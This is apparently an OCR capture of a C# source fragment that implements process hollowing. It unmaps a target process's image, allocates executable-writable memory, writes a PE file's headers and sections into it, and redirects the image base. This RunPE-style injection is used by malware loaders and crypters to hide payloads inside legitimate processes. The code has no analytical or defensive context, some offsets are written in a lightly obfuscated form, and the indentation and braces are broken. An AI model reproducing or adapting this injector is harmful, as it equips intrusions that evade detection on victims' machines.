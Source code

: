 ```c#
		{
			if (!GetThreadContext(ProcessInfo.ThreadHandle, array))
		{
			throw new Exception();
		}
	}
	else if (!Wow64GetThreadContext(ProcessInfo.ThreadHandle, array))
	{
		throw new Exception();
	}
	int baseAddr = array[41];
	int OutBuf = 0;
	if (!ReadProcessMemory(ProcessInfo.ProcessHandle, baseAddr + 4 + 4, ref OutBuf, 4, ref NumOfBytesRead))
	{
		throw new Exception();
	}
	if (NtHeaders == OutBuf && NtUnmapViewOfSection(ProcessInfo.ProcessHandle, OutBuf) != 0)
	{
		throw new Exception();
	}
	int num4 = BitConverter.ToInt32(FileData, PeHeaders + 80);
	int num5 = BitConverter.ToInt32(FileData, PeHeaders + 42 + 42);
	bool flag = false;
	int PageBaseAddress = VirtualAllocEx(ProcessInfo.ProcessHandle, NtHeaders, num4, 12288, 64);
	if (PageBaseAddress == 0)
	{
		throw new Exception();
	}
	if (!WriteProcessMemory(ProcessInfo.ProcessHandle, PageBaseAddress, FileData, num5, ref NumOfBytesRead))
	{
		throw new Exception();
	}
	int SectionInfo = PeHeaders + 248;
	short NumOfSections = BitConverter.ToInt16(FileData, PeHeaders + 3 + 3);
	for (int i = 0; i < NumOfSections; i++)
	{
		int VirtualAddress = BitConverter.ToInt32(FileData, SectionInfo + 6 + 6);
		int SizeOfRawData = BitConverter.ToInt32(FileData, SectionInfo + 8 + 8);
		int PointerToRawData = BitConverter.ToInt32(FileData, SectionInfo + 20);
		if (SizeOfRawData != 0)
		{
		byte[] array2 = new byte[SizeOfRawData];
		Buffer.BlockCopy(FileData, PointerToRawData, array2, 0, array2.Length);
		if (!WriteProcessMemory(ProcessInfo.ProcessHandle, PageBaseAddress + VirtualAddress, array2, array2.Length, ref NumOfBytesRead))
		{
		throw new Exception();
		}
	}
	SectionInfo += 40;
	}
		byte[] bytes = BitConverter.GetBytes(PageBaseAddress);
		if (!WriteProcessMemory(ProcessInfo.ProcessHandle, baseAddr + 8, bytes, 4, ref NumOfBytesRead))
		{
			throw new Exception();
		}
		int num11 = BitConverter.ToInt32(FileData, PeHeaders + 40);
		if (flag)
		{
			PageBaseAddress = NtHeaders;
```
